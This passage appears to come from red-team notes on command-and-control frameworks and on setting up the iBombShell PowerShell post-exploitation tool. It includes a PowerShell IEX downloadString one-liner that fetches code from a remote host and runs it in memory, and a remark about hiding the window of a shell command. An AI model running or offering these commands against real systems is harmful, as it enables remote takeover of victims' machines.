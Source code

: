 
> I have removed the `-win` `hidden` parameters just to know that it is connecting correctly, but you can leave them without problems (it would be the right thing to do).

---

# __C2 / Command-And-Control__

- __https://www.varonis.com/blog/what-is-c2/__
- __https://searchsecurity.techtarget.com/feature/Command-and-control-servers-The-puppet-masters-that-govern-malware__
- __https://www.paloaltonetworks.com/cyberpedia/command-and-control-explained__

> C2. Whether `Covenant`, `Empire`, `Silent` `Trinity`, `Cobalt` `Strike`... they are frameworks for the `post-exploitation` phase of a `red team operation`. They facilitate lateral movement, privilege escalation, creation of payloads, AV evasion.... Typically, when a C2 server needs to be used, it is not because s simply want to screenshot a single victim, but they are often used to facilitate `"large scale"` attacks, where most C2s allow others to connect and interact with `multiple` victims at the same time, such as launching a distributed denial of service "DDos" attack. Each server varies greatly between attacks, but a C2 generally consists of one or more covert `communication` channels between the devices of a victim `organization` and a `platform` that `controls` the `attacker`.


## __IBombShell__

- - __https://github.com/Telefonica/ibombshell__
- - __https://www.elladodelmal.com/2020/02/ibombshell-bypass-para-amsi-y-windows.html__

> iBombshell is a tool with two different aspects, one is to have a `dynamic` shell in `Powershell` avoiding the lack of pentesting tools in the local machine, and the second aspect is to manage the `"Warriors"` `(or control agents)` in `remote` to be able to execute `post-exploitation` actions in a Windows machine `(even GNU/Linux or MacOS do have Powershell Everysystem)`.

`wget / python`

```
wget https://raw.githubusercontent.com/Telefonica/ibombshell/master/console
```

```
python3 -m http.server
```

`Load Ibombshell In Memory / Powershell`

```Powershell
IEX (New-Object system.Net.WebClient).downloadString('http://ip:port/console')
```

`Now you can run the downloaded ibombshell console running`

```powershell
console
```

![Ibombshell](https://user-images.githubusercontent.com/84678370/131222160-fd72c26e-70b7-49e6-a9a0-58880acdbe4f.png)
